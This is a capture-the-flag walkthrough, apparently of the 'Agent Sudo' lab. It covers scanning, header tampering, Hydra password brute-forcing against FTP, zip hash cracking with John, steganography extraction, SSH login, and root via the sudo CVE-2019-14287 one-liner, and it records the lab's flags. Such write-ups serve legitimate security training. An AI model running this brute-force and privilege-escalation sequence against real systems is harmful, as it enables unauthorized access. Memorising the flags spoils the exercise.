


#enumerate #exploit #brute-force #hash_cracking

---

> Running an nmap scan on the target machine with script and version flags.

```
|─$ nmap -sC -sV 10.10.166.74

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 06:40 EDT
Nmap scan report for 10.10.166.74
Host is up (0.13s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.62 seconds

```

> We see there 3 open ports, 21, 22, and 80.

###### How many open ports? : `3` .

> Opening the IP address in the browser to access port 80.



> `user-agent` is an HTTP header, so if we intercept the request to this page, we can modify the `user-agent` header and see how the webpage responds.
> Having intercept on and refreshing the page.


> We can change the `user-agent` header to `R`, or the codename of the agent, and then forwarding the request.


> We get this response.


###### How you redirect yourself to a secret page? : `User-Agent` .


> Trying the different letters and seeing the different responses we get through intruder in a sniper attack.
> Adding the payload position in the `user-agent` value, and making a simple list with the other 25 codenames, or letters of the alphabet.


> Starting the attack, and monitoring the different responses.


> We see that `C` has a different response code, and a different size.
> Viewing the response, we see there is a redirection, following the redirection.


> We see that there is a weak password for agent `C`, and that the username is `chris`. 

###### What is the agent name? : `Chris` .

> Using Hydra to brute force passwors for the user `Chris` on `ftp`.
```
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.166.74
```

> After a while, we get a password that works, and the password, `crystal`.
```
DATA] attacking ftp://10.10.166.74:21/
[21][ftp] host: 10.10.166.74   login: chris   password: crystal
```

###### FTP password : `crystal` .

> Logging in via FTP.

```
ftp 10.10.166.74
```

> We are asked for a username and password, entering `chris` and `crystal` to login.
> Viewing the present files via `ls`.



> We have 3 files.
> Downlading them onto the local machine to view them using the `get` command.

```
get To_agentJ.txt
get cute-alien.png
get cutie.png
```

> Viewing the text file:
```bash
cat To_agentJ.txt
```

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

> For the pictures, we see nothing special, and using the `exiftool` to see if there is any stored metadata, we get nothing.
> The next step is to see if there are any files hidden inside the images. Using the `binwalk` tool to do so.

```bash
binwalk cute-alien.jpg
```

> We see nothing except the image, trying the other image.

```shell
binwalk cutie.png
```


> We see that there is the PNG image itself, there is some compressed data that contains within it `R.txt`.
> Extracting this data from the picture using `binwalk with the -e` flag.

```
binwalk cutie.png -e
```

> We see that there is a new directory called `_cutie.png.extracted`, going into that directory and listing the elements we see a zip file called `8702.zip`.

> Trying to unzip the zip file isn't working, it is password protected.


> To crack the password, we use `John The Ripper`.
> But it first needs to be in a format that John can understand, so we first use the tool `zip2john`, and output that supported format into a new file that we can then use `john` on.

```
zip2john 8702.zip > 8702_new
```

> Now we can use `john` to crack the password with a wordlist.

```
--$ john --wordlist=/usr/share/wordlists/rockyou.txt 8702_new 

Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:00 DONE (2023-08-06 08:03) 3.846g/s 94523p/s 94523c/s 94523C/s christal..280789
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

> We see the password is `alien`.
> Now we can unzip and enter the password to continue, and see that it rewrote the file `To_agentR.txt`.
> Opening that file.


> We see something is surely encoded. 
```
QXJlYTUx
```

> Pasting it into [CyberChef](https://gchq.github.io/CyberChef/) and letting it do the magic decoding, it shows that it can `Base64` decode it into `Area51`.
> This might be the steg password, trying to submit it and it works.
###### steg password : `Area51` .

> Stegenography, or steg for short, is a way of storing information inside other data.
> We have another picture, the `cute-alien.jpg`, and we can see if there is anything hidden using the command `steghide`, with the `info` option.
> Entering the password `Area51` when prompted.


> We see that there is an embedded file called `message.txt`.
> Trying to extract it.

```
steghide --extract -sf cute-alien.jpg 
```

> We see that the file has been extracted, opening it to view its contents.

```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

> We see that there is another user `james`, and his password is `hackerrules`.

###### Who is the other agent (in full name)? : `james` .

###### SSH password : `hackerrules!` .

> Using these credentials to login via SSH.
> The IP address changed because the machine terminated, use the target IP address.
```
ssh james@10.10.28.128
```
> Entering the password when prompted, and we entered via ssh as james.

> Listing the contents, we see the `user_flag.txt`, and an image `Alien_autopsy.jpg`.
```
cat user_flag.txt

> b03d975e8c92a7c04146cfa7a5a313c7
```

###### What is the user flag? : `b03d975e8c92a7c04146cfa7a5a313c7` .

> The image we want to view and play with, so we need to download it to our attacking machine.
> To do that, use the `scp` command from the attacking machine.

```shell
scp james@10.10.180.60:/home/james/Alien_autopsy.jpg /home/kali
```
> We connect to `james@10.10.180.60`, the IP address changed since the machine terminated, and specify the path of the file we want, `Alien_autopsy.jpg`.
> We then specify where we want it downloaded on our attacking machine.

> Now that it is downloaded on our machine, we can do the reverse image search as given by the hint.
> Open google, and then click on the image icon and upload the picture.
> Once uploaded, switch to sources, and look for `foxnews` as given by the hint.
> Opening the link, we see the title.


> We see the text `Roswell alien autopsy`.

###### What is the incident of the photo called? : `Roswell alien autopsy` .

> Enumerating different methods to escalate privileges, i see nothing interesting until i try `sudo -l`.
> This command is used to see which commands the current user can run using `sudo`.


> Searching up what `(ALL, !root) /bin/bash` means, we see the first link leading to this [exploit](https://www.exploit-db.com/exploits/47502).
> Defining this line:

1. This rule applies to user `james`.
2. `ALL` are the users the command can be executed as.
3. The `!root` are the groups the command can be executed as.
4. The `/bin/bash` is the command.

> To check the sudo version:
```
james@agent-sudo:~$ sudo -V
Sudo version 1.8.21p2
```
> We see that it is less than the version found in exploitdb link, `1.8.27`.

> The exploit is: 
```
sudo -u#-1 /bin/bash
```

> The exploit works because this sudo version doesn't doesn't check for existence of the specified user id, 1.
> `-u#-1` returns 0, which is the root users id.
> Therefore, it executes any command as root, and the given command here is `/bin/bash`, spawning for us a bash shell with root privileges.

###### CVE number for the escalation: `CVE-2019-14287` .

> Typing the exploit above into the terminal, we see that we are now root.


###### What is the root flag? : `b53a02f55b57d4439e3341834d70c062` .

###### (Bonus) Who is Agent R? : `DesKel` .

---

